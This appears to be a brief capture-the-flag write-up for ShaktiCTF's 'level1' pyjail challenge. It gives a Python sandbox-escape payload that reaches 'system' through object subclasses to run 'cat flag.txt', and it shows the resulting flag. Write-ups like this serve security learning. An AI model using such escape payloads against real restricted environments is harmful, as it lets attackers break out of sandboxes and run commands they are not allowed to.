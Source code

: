 Title: level1

Description:
```
Solve the level1 challenge of the pyjail series

Note: The server is running on Ubuntu 20.04
```

Refer to the first [challenge](https://github.com/Coder-Here/ShaktiCTF/blob/main/Misc/level0/README.md), the payload works from there, but without the print function.

```
print([].__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['system']('cat flag.txt'))

the above does not work, try the below one

[].__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['system']('cat flag.txt')
```

![image](https://user-images.githubusercontent.com/63996033/206860336-27f7486c-8115-41c1-bfd1-6d8bfb0b796e.png)

Flag: shakti{7h47_W45_4_Cl053_C4ll!!!}


What is ```Word of advice,remember this:weYbdk9012ghiwh=0?``` for ?????

